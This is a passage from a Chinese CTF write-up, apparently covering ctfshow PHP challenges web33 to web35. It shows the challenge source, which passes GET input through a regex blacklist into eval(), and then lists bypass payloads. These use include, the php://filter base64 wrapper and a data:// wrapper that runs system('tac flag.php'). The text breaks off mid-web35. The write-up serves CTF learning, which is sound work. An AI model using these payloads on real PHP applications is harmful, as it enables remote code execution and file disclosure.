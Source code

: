 虽然多过滤了双引号，无聊，这跟上题一样的思路即可

题无聊，人有趣呀，咱用data://协议命令执行一下吧

pyload1:?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

pyload2:?c=include%0a$_POST[a]?>

post:a=data://text/plain,\<?php eval(system("tac flag.php"))?>

### web34

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

比上题多过滤了冒号，但是无所谓，上题俩pyload依然通杀

pyload1:?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

pyload2:?c=include%0a$_POST[a]?>

post:a=data://text/plain,\<?php eval(system("tac flag.php"))?>

### web35

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
```